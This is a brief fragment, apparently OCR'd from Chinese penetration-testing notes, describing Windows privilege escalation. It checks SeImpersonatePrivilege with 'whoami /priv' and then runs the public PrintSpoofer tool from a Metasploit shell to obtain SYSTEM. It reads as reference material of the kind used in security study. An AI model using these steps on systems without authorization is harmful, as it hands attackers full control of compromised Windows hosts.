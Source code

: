 	>whoami /priv 可以看到SeImpersonatePrivilege状态为Enabled
	上传https://github.com/itm4n/PrintSpoofer/releases
	用msf交互式shell执行
	>PrintSpoofer64.exe -i -c cmd
	>whoami  即可获得system权限
 ##### 更多
  	https://github.com/gtworek/Priv2Admin